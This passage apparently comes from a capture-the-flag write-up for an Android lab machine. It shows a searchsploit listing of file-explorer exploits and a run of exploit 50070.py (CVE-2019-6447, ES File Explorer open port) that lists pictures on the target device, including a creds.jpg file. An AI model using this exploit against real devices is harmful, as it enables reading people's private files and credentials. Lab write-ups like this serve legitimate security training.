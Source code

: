 ```bash
Microsoft Internet Explorer 5 - ActiveX Object For Constructing Type Libraries For Scriptlets File Write                                                                                                   | windows/remote/19468.txt
Microsoft Internet Explorer 5 / Firefox 0.8 / OmniWeb 4.x - URI Protocol Handler Arbitrary File Creation/Modification                                                                                      | windows/remote/24116.txt
Microsoft Internet Explorer 6 - Local File Access                                                                                                                                                          | windows/remote/29619.html
Microsoft Internet Explorer 6 - '%USERPROFILE%' File Execution                                                                                                                                             | windows/remote/22734.html
Microsoft Internet Explorer 7 - Arbitrary File Rewrite (MS07-027)                                                                                                                                          | windows/remote/3892.html
Microsoft Internet Explorer / MSN - ICC Profiles Crash (PoC)                                                                                                                                               | windows/dos/1110.txt
My File Explorer 1.3.1 iOS - Multiple Web Vulnerabilities                                                                                                                                                  | ios/webapps/28975.txt
WebFileExplorer 3.6 - 'user' / 'pass' SQL Injection                                                                                                                                                        | php/webapps/35851.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
[root@kali Explore ]$ 
```
`ES File Explorer 4.1.9.7.4 - Arbitrary File Read` seems a good candidate, let's test it and see if we can gain any additional information related to this system.  

## User
Now we can test `50070.py` and acknowledge that this exploit works.  
Poking around on system files we can notice a `creds.png` file listed using `listPics` option for the exploit:  
```bash
[root@kali exploits ]$ python3 50070.py listPics $TARGET     

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
```